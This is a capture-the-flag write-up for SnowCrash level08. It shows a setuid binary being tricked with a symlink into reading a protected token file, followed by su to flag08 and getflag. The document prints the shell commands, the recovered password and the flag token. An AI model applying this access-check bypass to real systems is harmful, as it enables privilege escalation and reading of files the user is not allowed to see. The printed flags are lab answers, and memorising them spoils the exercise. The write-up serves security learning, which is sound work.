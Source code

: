 ### Exploit

This time around, we've got a binary file and a text file.

```
    level08@SnowCrash:~$ ls -l
    total 16
    -rwsr-s---+ 1 flag08 level08 8617 Mar  5  2016 level08
    -rw-------  1 flag08 flag08    26 Mar  5  2016 token
    level08@SnowCrash:~$ ./level08
    ./level08 [file to read]
    level08@SnowCrash:~$ ./level08 token
    You may not access 'token'
```
We haven't got any permission on `token` as user `level08`. However, the binary file will print out the content of any file we own.

```
    level08@SnowCrash:~$ echo "test">/tmp/test
    level08@SnowCrash:~$ ls -l /tmp/test
    -rw-rw-r-- 1 level08 level08 6 Jan 13 17:20 /tmp/test
    level08@SnowCrash:~$ ./level08 /tmp/test
    test
```
This means the script opens, reads and writes the content of any file, even though it pertains to user `level08`. Obviously, we can't modify the permission rights of `token` with `chmod`, so we need to find a way around this constraint. This can be achieved using symbolic links and absolute paths.

```
  level08@SnowCrash:~$ ln -s /home/user/level08/token /tmp/key
  level08@SnowCrash:~$ cat /tmp/key
    cat: /tmp/key: Permission denied
  level08@SnowCrash:~$ ls -la /tmp/key
  lrwxrwxrwx 1 level08 level08 24 Dec 10 16:48 /tmp/key -> /home/user/level08/token
  level08@SnowCrash:~$ ./level08 /tmp/key
  quif5eloekouj29ke0vouxean
  level08@SnowCrash:~$ su flag08
  Password:
  Don't forget to launch getflag !
  flag08@SnowCrash:~$ getflag
  Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
```
This trick turns out to be very useful for the next couple of levels...
